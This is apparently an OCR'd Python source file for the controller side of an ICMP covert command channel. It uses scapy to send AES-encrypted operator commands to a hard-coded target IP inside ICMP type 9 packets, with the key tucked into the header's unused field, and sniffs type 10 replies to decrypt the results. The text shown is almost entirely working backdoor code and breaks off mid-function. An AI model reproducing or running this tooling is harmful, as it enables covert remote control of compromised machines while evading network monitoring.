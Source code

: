 本地机

```
from scapy.all import *
import random
from Crypto.Cipher import AES

BLOCK_SIZE = 16  # Bytes
pad = lambda s: s + (BLOCK_SIZE - len(s) % BLOCK_SIZE) * \
                chr(BLOCK_SIZE - len(s) % BLOCK_SIZE)
unpad = lambda s: s[:-ord(s[len(s) - 1:])]

global ip_from_list
ip_from_list = ['47.112.188.200','32.99.215.42']

global ip_target
ip_target = '47.112.188.203'


def send_icmp():
    cmd = input('[+] please input command:>>')
    key = random.randint(268435455,4294967295)
    key_encrypt = hex(key)[2:10]*2
    cmd_encrypt = aesEncrypt(key_encrypt,cmd)

    #sign_flag = sign_flag_list[random.randint(0,len(sign_flag_list)-1)]
    ip_from = ip_from_list[random.randint(0,len(ip_from_list)-1)]
    #packet = IP(dst=ip_target,ttl=64,id=10)/ICMP(type=8,id=20,seq=sign_flag)/cmd.encode()
    
    packet = IP(dst=ip_target,ttl=64,id=10)/ICMP(type=9,unused=key)/cmd_encrypt
    send(packet)

def aesEncrypt(key, data):
    key = key.encode('utf8')
    # 字符串补位
    data = pad(data)
    cipher = AES.new(key, AES.MODE_ECB)
    # 加密后得到的是bytes类型的数据，使用Base64进行编码,返回byte字符串
    result = cipher.encrypt(data.encode())
    return result

def aesDecrypt(key, data):
    key = key.encode('utf8')
    cipher = AES.new(key, AES.MODE_ECB)

    # 去补位
    text_decrypted = unpad(cipher.decrypt(data))
    text_decrypted = text_decrypted.decode('utf8')
    return text_decrypted

def sniff_icmp():
    result = sniff(count=1,filter="icmp",lfilter=lambda x:check_icmp(x[0]))
    result_encrypt = get_result(result[0])
    key = get_key(result[0])
    result = aesDecrypt(key,result_encrypt)
    return result

def check_icmp(packet):
    if packet.haslayer(ICMP):
        if packet[ICMP].type == 10:
            return True

def get_result(packet):
    result = packet[Raw].load
```